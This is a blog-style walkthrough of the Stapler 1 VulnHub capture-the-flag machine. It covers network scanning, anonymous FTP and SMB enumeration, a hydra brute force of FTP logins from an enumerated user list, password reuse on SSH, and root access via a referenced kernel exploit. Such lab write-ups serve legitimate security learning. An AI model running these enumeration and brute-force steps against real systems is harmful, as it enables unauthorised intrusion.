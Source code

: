 ```yaml
---
layout: post
title: Stapler 1
date: 2019-05-14
author: the-bilal-rizwan
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Stapler 1 vulnhub

After configuring the Stapler VM first step is to find out its IP.We simply do that by running net discover 

```bash
root@kali$: netdisover -r 192.168.2.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                          
                                                                                                                                                                                        
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                                                        
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.2.1     00:50:56:c0:00:08      1      60  VMware, Inc.                                                                                                                         
 192.168.2.2     00:50:56:ed:3a:6d      1      60  VMware, Inc.                                                                                                                         
 192.168.2.7     00:0c:29:03:c5:77      1      60  VMware, Inc.                                                                                                                         
 192.168.2.254   00:50:56:e6:7a:fe      1      60  VMware, Inc.                                                                                                                         
```

So we have our target ip **192.168.2.7**

Run dirsearch and nmap on it and meanwhile browse the site to check if you find anything interesting on the web interface.
Unfortunately there wasn't anything interesting found while browsing the site just one error page . 

Dirsearch also didn't yeild any thing worth checking.

#### Nmap results

```bash
 nmap -sV 192.168.2.7                                                                                                                                                 [20/20]
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-14 06:14 EDT                                                                                                                          
Nmap scan report for 192.168.2.7                                                                                                                                                         
Host is up (0.00032s latency).                                                                                                                                                           
Not shown: 992 filtered ports                                                                                                                                                            
PORT     STATE  SERVICE     VERSION                                                                                                                                                      
20/tcp   closed ftp-data                                                                                                                                                                 
21/tcp   open   ftp         vsftpd 2.0.8 or later                                                                                                                                        
22/tcp   open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)                                                                                                          
53/tcp   open   domain      dnsmasq 2.75                                                                                                                                                 
80/tcp   open   http        PHP cli server 5.5 or later                                                                                                                                  
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                                  
666/tcp  open   doom?                                                                                                                                                                    
3306/tcp open   mysql       MySQL 5.7.12-0ubuntu1  

```

Lets start enumerating.

First I checked ftp anonymous login.

```bash

root@kali:~# ftp 192.168.2.7
Connected to 192.168.2.7.
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220 
Name (192.168.2.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
local: note remote: note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.00 secs (577.3049 kB/s)
ftp> exit
221 Goodbye.
root@kali:~# cat note 
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
root@kali:~# 

```

Even though the anonymous login was enable we couldn't find anything interesting except 2 names which could possibiliy be used later.

The next thing that strikes me is the netbios service lets enumerate that.For beginners use [this resource](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/).


I am going to use _smbclient_ . For the password I just pressed enter i.e a  Null login.

```bash
root@kali:~# smbclient -L 192.168.2.7
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        kathy           Disk      Fred, What are we doing here?
        tmp             Disk      All temporary files should be stored here
        IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            RED
root@kali:~# 

```

After going though all the files I only found one wordpress directory but I didn't see any wordpress running on the web server , I probably might have missed it ( I made a mental note to go back and check it) . The second reason for ignoring the wordpress directory is that there was no config file in it.

Next I ran enum4linux

```bash

..[snip]..
S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)

```
These are list of usernames that were enumerated I thought to use this to bruteforce login creds for ftp.

_a little cut magic_

```bash

root@kali:/tmp# cat users.txt | cut -d'\' -f2 | cut -d' ' -f 1
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

Running _hydra_

```bash
hydra -U users.txt -P users.txt -t 5 192.168.2.7 ftp

```

![hydra result]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/hydra.png)

Loging in with those creds in to the ftp I land in the home directory of the user and upon listing the files of the user I saw that there were too many files going though all of them would require alot of tile , this made me think that I am on the wrong path most likely I still went ahead and copied the name of the files and did some quick greping on it to find something like ssh or password or similar but no seed. 

After a long pause I tried the same credentials found for ftp on ssh and voila ! (sometimes thats just how ctfs are)

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/ssh.png)

I opted for the shortest path to get root 


```bash
$ uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

After searching Local explotis for the specific linux kernal and trying alot of them ( almost gave up on trying to find more exploits ) I finally came accross the following exploit.

_https://www.exploit-db.com/exploits/39772_

Ran the exploit and voila!!

![Root Shel]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/root-shell.png)